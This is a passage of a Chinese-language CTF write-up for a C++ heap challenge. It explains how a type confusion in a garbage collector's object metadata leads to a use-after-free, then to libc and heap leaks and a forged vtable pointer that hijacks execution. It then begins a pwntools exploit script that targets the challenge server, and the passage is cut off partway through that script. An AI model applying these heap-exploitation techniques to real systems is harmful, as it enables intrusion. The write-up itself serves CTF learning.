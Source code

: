 ```
```
再减去sizeof(ObjMeta)，返回的则是base1的成员。
造成可以使用base1成员数据来伪造meta(base2)的攻击效果。
### 漏洞利用
- 回到题目上来，根据上述漏洞描述，在使用 `separate` 功能将 FantasticBeasts 分离为 Cat 和 Dog 后，新 Dog 指针指向原 FantasticBeasts 头部，新 Cat 指针则指向 Dog 的成员变量。
- 此时由于 Dog 的 meta 还是 FantasticBeasts 的，造成了类型混淆，所以 delete  Dog 时会调用 FantasticBeasts 的析构函数，其又会依次调用两个基类的析构函数，所以会把 Dog 和 Cat 都给释放掉，而此时 Cat 还存储在 Cat_Pool 中，所以造成了 UAF。
- 然后再次 `combine` 的时候可以泄露 libc 和 heap，最后用 Dog 的成员变量伪造 Cat 的 meta 虚表指针，在虚表中构造好恶意payload（我个人使用的是klass->memHandler字段）劫持执行流即可（Sell Cat => tgc::details::ObjMeta::destroy => klass->memHandler(klass)），赛后唯2解的wp中，AAA的师傅用的和我一样的方法，Lilac的师傅使用了另外一种方法，也非常巧妙😍。
```cpp
void ObjMeta::destroy() {
  if (!arrayLength)
    return;
  klass->memHandler(klass, ClassMeta::MemRequest::Dctor, this);
  arrayLength = 0;
}
```

exp:
```python
#coding:utf-8

from pwn import *
import sys,os,string,base64

elf_path = './pwn'
remote_libc_path = './libc.so.6'

context(os='linux',arch='amd64')
context.terminal = ['tmux','split','-h']
#context.log_level = 'debug'

if sys.argv[1] == 'local':
	p = process(elf_path)
	if context.arch == 'amd64':
		libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
	else:
		libc = ELF('/lib/i386-linux-gnu/libc.so.6')
else:
	p = remote('140.82.17.215',24310)
	libc = ELF(remote_libc_path)

def new_dog(name, age):
	p.recvuntil('> ')
	p.sendline('1')
	p.recvuntil('> ')
	p.sendline('1')
	p.recvuntil('name: \n')
	p.sendline(name)
	p.recvuntil('age: \n')
	p.sendline(str(age))

def new_cat(color):
	p.recvuntil('> ')
	p.sendline('1')
	p.recvuntil('> ')
	p.sendline('2')
	p.recvuntil('color: \n')
	p.sendline(color)

def delete_dog():
```